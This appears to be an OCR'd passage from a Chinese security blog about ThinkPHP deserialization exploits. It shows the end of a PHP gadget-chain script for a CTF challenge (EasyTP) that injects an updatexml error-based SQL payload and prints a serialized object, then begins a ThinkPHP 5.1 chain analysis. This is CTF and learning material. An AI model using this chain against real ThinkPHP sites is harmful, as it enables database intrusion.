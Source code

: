     namespace Think\Session\Driver{
        use Think\Model;
        class Memcache{
            protected $handle;
    
            public function __construct(){
                $this->handle = new Model();
            }
        }
    }
    
    namespace Think{
        use Think\Db\Driver\Mysql;
        class Model{
            protected $options   = array();
            protected $pk;
            protected $data = array();
            protected $db = null;
    
            public function __construct(){
                $this->db = new Mysql();
                $this->options['where'] = '';
                $this->pk = 'id';
                $this->data[$this->pk] = array(
                    "table" => "mysql.user where 1=updatexml(1,user(),1)#",
                    "where" => "1=1"
                );
            }
        }
    }

    namespace {
        echo base64_encode(serialize(new Think\Image\Driver\Imagick()));
    }

思路：https://mp.weixin.qq.com/s/S3Un1EM-cftFXr8hxG4qfA?fileGuid=YQ6W8dWWxRpgCVkt
实战：[红明谷CTF 2021]EasyTP

## Thinkphp5.1 反序列化分析 2021/9/25
2021/9/25

首先必须要吐槽的是，因为自己太憨被tp的路由设置搞了一个多小时。
在application/index/controller下创建个新的控制器，并在route/route.php设置了路由

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210925220039.png)

最开始直接访问的www.tp.com:xxx/unserialize，直接404，访问上面自带的think也是404，然而这时候没有意识到是访问路径的问题。。。以为问题出在了设置和nginx上，但是排查了一圈发现都没问题。最后才发现要这样访问：www.tp.com:xxx/index.php/unserialize

麻了。

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210925215726.png)

这条链从/thinkphp/library/think/process/pipes/Windows.php的__destruct()方法入手。
